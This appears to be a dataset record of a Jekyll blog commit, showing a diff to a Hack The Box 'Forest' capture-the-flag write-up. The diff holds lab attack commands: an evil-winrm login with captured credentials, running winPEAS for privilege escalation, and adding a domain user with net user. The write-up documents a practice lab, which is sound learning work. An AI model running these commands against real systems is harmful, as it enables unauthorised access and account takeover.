

Before and after one commit to jaeflo/jaeflo.github.io, a Jekyll site: the page built from _posts/2020-03-19-hack-the-box-forest.md, in a window 1280 px wide and 900 px high, scrolled down 4278 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
zwischenstand

```diff
--- a/_posts/2020-03-19-hack-the-box-forest.md
+++ b/_posts/2020-03-19-hack-the-box-forest.md
@@ -80,9 +80,10 @@ this credentials, I could use to establish a connection with winrm (`evil-winrm
 
 ![userflag](/images/forest/userflag.png)
 
-Tried with `winPEASany.exe` to escalate privilegies
+Tried with `winPEASany.exe` to escalate privilegies. The command
+`evil-winrm -i forest.htb -u svc-alfresco -p s3rvice -e .` and `Invoke-Binary winPEASany.exe` started the process to scan forest.htb.local, but this was a loose end to me.
 
-`evil-winrm -i forest.htb -u svc-alfresco -p s3rvice -e .` and `Invoke-Binary winPEASany.exe` started the process to scan forest.htb.local
+
 
 net user John fadf24as /ADD /DOMAIN
 evil-winrm -i 10.10.10.161 -u John -p fadf24as
```
